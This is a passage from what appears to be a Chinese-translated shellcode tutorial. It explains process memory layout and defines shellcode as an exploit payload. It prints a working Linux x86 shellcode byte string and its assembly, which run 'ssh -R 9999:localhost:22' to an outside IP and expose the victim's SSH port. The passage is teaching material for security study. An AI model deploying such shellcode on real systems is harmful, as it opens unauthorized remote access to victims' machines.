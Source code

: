# 内存布局

这是一个包含以下内容的程序的完整内存布局：

+   `.text`部分用于保存**程序代码**

+   `.data`部分用于保存**初始化的数据**

+   `.BSS`部分用于保存**未初始化的数据**

+   **堆**部分用于保存**动态分配的变量**

+   **栈**部分用于保存非动态分配的变量，如缓冲区：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00016.jpeg)

看看**堆**和**栈**是如何增长的；**栈**从**高内存**增长到**低内存**，而**堆**从**低内存**增长到**高内存**。

# 什么是 shellcode？

Shellcode 就像是用机器语言编写的溢出利用中使用的有效载荷。因此，shellcode 用于在利用易受攻击的进程后覆盖执行流程，比如让受害者的机器连接回您以生成一个 shell。

下一个示例是用于 Linux x86 SSH 远程端口转发的 shellcode，执行`ssh -R 9999:localhost:22 192.168.0.226`命令：

```
"\x31\xc0\x50\x68\x2e\x32\x32\x36\x68\x38\x2e\x30\x30\x68\x32\x2e\x31\x36""\x66\x68\x31\x39\x89\xe6\x50\x68\x74\x3a\x32\x32\x68\x6c\x68\x6f\x73\x68""\x6c\x6f\x63\x61\x68\x39\x39\x39\x3a\x66\x68\x30\x39\x89\xe5\x50\x66\x68""\x2d\x52\x89\xe7\x50\x68\x2f\x73\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75""\x73\x72\x89\xe3\x50\x56\x55\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
```

这是该 shellcode 的汇编语言：

```
xor    %eax,%eax
push   %eax
pushl  $0x3632322e
pushl  $0x30302e38
pushl  $0x36312e32
pushw  $0x3931
movl   %esp,%esi
push   %eax
push   $0x32323a74
push   $0x736f686c
push   $0x61636f6c
push   $0x3a393939
pushw  $0x3930
movl   %esp,%ebp
push   %eax
pushw  $0x522d
movl   %esp,%edi
push   %eax
push   $0x6873732f
push   $0x6e69622f
push   $0x7273752f
movl   %esp,%ebx
push   %eax
push   %esi
push   %ebp
push   %edi
push   %ebx
movl   %esp,%ecx
mov    $0xb,%al
int    $0x80
```
